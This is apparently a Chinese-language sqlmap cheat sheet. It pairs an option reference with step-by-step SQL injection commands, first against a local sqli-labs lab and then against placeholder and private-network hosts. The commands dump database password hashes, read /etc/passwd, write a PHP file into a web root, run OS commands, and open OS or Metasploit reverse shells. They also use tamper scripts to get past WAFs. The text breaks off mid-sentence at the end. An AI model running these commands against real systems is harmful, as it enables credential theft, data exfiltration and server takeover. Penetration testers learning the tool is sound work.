


## 基础命令结构
kali:

sqlmap -u [目标URL] [参数]

## 参数速查

### 1、必选参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `-u <URL>` | 指定目标URL（GET请求） | `-u "http://example.com/?id=1"` |
| `--data=<DATA>` | 指定POST请求数据 | `--data="user=admin&pass=123"` |
| `-r <文件>` | 从文件加载HTTP请求（如Burp抓包） | `-r request.txt` |
| `-l <日志>` | 从Burp日志中解析目标 | `-l burp.log` |

### 2、注入技术参数

| 参数 | 作用 | 适用场景 |
|------|------|------|
| `--technique=B` | 布尔盲注（Boolean-based） | 页面有真/假状态差异 |
| `--technique=T` | 时间盲注（Time-based） | 无回显，依赖延迟（如Less-9） |
| `--technique=E` | 报错注入（Error-based） | 数据库返回错误信息 |
| `--technique=U` | UNION联合查询 | 有回显且列数可控 |

### 3、数据库操作参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `--dbs` | 列出所有数据库 | `--dbs` |
| `--current-db` | 获取当前数据库名 | `--current-db` |
| `-D <db>` | 指定目标数据库 | `-D security` |
| `--tables` | 列出表名 | `--tables` |
| `-T <table>` | 指定目标表 | `-T users` |
| `--columns` | 列出列名 | `--columns` |
| `--dump` | 导出表数据 | `--dump` |
| `--schema` | 导出数据库结构 | `--schema` |

### 4、优化与绕过参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `--threads=10` | 多线程加速（默认1） | `--threads=10` |
| `--time-sec=2` | 设置时间盲注延迟（默认5秒） | `--time-sec=2` |
| `--tamper=<脚本>` | 混淆Payload绕过WAF | `--tamper=space2comment` |
| `--random-agent` | 随机User-Agent | `--random-agent` |
| `--proxy=<代理>` | 通过代理发送请求 | `--proxy="http://127.0.0.1:8080"` |

### 5、常用功能参数

| 参数 | 作用 | 示例 |
|------|------|------|
| `--batch` | 非交互模式（自动确认） | `--batch` |
| `--level=1-5` | 测试等级（1-5，默认1） | `--level=3` |
| `--risk=1-3` | 风险等级（1-3，默认1） | `--risk=2` |
| `--os-shell` | 获取操作系统Shell | `--os-shell` |
| `--sql-shell` | 获取SQL交互Shell | `--sql-shell` |
| `--output-dir=<路径>` | 指定结果保存目录 | `--output-dir=/tmp/` |

## 使用示例

### GET注入

1、注入前测试

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" --batch

布尔盲注和时间盲注均可用

2、开始注入：

查看全部数据库

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" --dbs --technique=B --batch

查看表名

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" -D security --tables --technique=B --batch

查看列名

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" -D security -T users --columns --technique=B --batch

查看数据

sqlmap -u "http://127.0.0.1:8081/Less-8/?id=1" -D security -T users --dump --technique=B --batch

### POST注入

1、注入前测试

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" --batch

2、开始注入：

查看全部数据库

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" --dbs --batch

查看表名

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" -D security --tables --batch

查看列名

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" -D security -T users --columns --batch

查看数据

sqlmap -u "http://localhost:8081/Less-13/" --data="uname=admin&passwd=123" -D security -T users --dump --batch 

# 基本操作笔记：
-u  #注入点 
-f  #指纹判别数据库类型 
-b  #获取数据库版本信息 
-p  #指定可测试的参数(?page=1&id=2 -p "page,id") 
-D ""  #指定数据库名 
-T ""  #指定表名 
-C ""  #指定字段 
-s ""  #保存注入过程到一个文件,还可中断，下次恢复在注入(保存：-s "xx.log"　　恢复:-s "xx.log" --resume) 
--level=(1-5) #要执行的测试水平等级，默认为1 
--risk=(0-3)  #测试执行的风险等级，默认为1 
--time-sec=(2,5) #延迟响应，默认为5 
--data #通过POST发送数据 
--columns        #列出字段 
--current-user   #获取当前用户名称 
--current-db     #获取当前数据库名称 
--users          #列数据库所有用户 
--passwords      #数据库用户所有密码 
--privileges     #查看用户权限(--privileges -U root) 
-U               #指定数据库用户 
--dbs            #列出所有数据库 
--tables -D ""   #列出指定数据库中的表 
--columns -T "user" -D "mysql"      #列出mysql数据库中的user表的所有字段 
--dump-all            #列出所有数据库所有表 
--exclude-sysdbs      #只列出用户自己新建的数据库和表 
--dump -T "" -D "" -C ""   #列出指定数据库的表的字段的数据(--dump -T users -D master -C surname) 
--dump -T "" -D "" --start 2 --top 4  # 列出指定数据库的表的2-4字段的数据 
--dbms    #指定数据库(MySQL,Oracle,PostgreSQL,Microsoft SQL Server,Microsoft Access,SQLite,Firebird,Sybase,SAP MaxDB) 
--os      #指定系统(Linux,Windows) 
-v  #详细的等级(0-6) 
    0：只显示Python的回溯，错误和关键消息。 
    1：显示信息和警告消息。 
    2：显示调试消息。 
    3：有效载荷注入。 
    4：显示HTTP请求。 
    5：显示HTTP响应头。 
    6：显示HTTP响应页面的内容 
--privileges  #查看权限 
--is-dba      #是否是数据库管理员 
--roles       #枚举数据库用户角色 
--udf-inject  #导入用户自定义函数（获取系统权限） 
--union-check  #是否支持union 注入 
--union-cols #union 查询表记录 
--union-test #union 语句测试 
--union-use  #采用union 注入 
--union-tech orderby #union配合order by 
--data "" #POST方式提交数据(--data "page=1&id=2") 
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”) 
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com") 
--user-agent ""  #自定义user-agent 
--proxy "http://127.0.0.1:8118" #代理注入 
--string=""    #指定关键词,字符串匹配. 
--threads 　　  #采用多线程(--threads 3) 
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"

简单的注入流程 :
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：